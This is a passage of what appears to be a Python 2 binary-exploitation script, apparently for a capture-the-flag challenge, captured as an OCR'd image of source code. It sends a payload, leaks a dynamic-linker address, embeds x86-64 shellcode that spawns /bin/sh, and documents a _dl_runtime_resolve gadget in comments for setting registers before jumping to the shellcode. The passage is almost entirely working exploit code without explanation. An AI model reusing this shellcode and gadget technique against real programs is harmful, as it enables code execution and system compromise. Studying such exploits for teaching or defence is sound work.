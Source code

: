     print "\n#############sending payload2#############\n"
    p.send(payload2)
    sleep(1)    
    
    linker_addr = u64(p.recv(8))
    print "linker_addr + 0x35: " + hex(linker_addr + 0x35)  
    
    p.recvuntil("Hello, World\n")   
    
    shellcode = ( "\x48\x31\xc0\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e" +
                  "\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89" +
                  "\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" )  
    
    #   GADGET
    #   0x7ffff7def235 <_dl_runtime_resolve+53>:    mov    r11,rax
    #   0x7ffff7def238 <_dl_runtime_resolve+56>:    mov    r9,QWORD PTR [rsp+0x30]
    #   0x7ffff7def23d <_dl_runtime_resolve+61>:    mov    r8,QWORD PTR [rsp+0x28]
    #   0x7ffff7def242 <_dl_runtime_resolve+66>:    movrdi,QWORD PTR [rsp+0x20]
    #   0x7ffff7def247 <_dl_runtime_resolve+71>:    movrsi,QWORD PTR [rsp+0x18]
    #   0x7ffff7def24c <_dl_runtime_resolve+76>:    movrdx,QWORD PTR [rsp+0x10]
    #   0x7ffff7def251 <_dl_runtime_resolve+81>:    movrcx,QWORD PTR [rsp+0x8]
    #   0x7ffff7def256 <_dl_runtime_resolve+86>:    movrax,QWORD PTR [rsp]
    #   0x7ffff7def25a <_dl_runtime_resolve+90>:    add    rsp,0x48
    #   0x7ffff7def25e <_dl_runtime_resolve+94>:    jmp    r11  
    
    shellcode_addr = 0xbeef0000 
    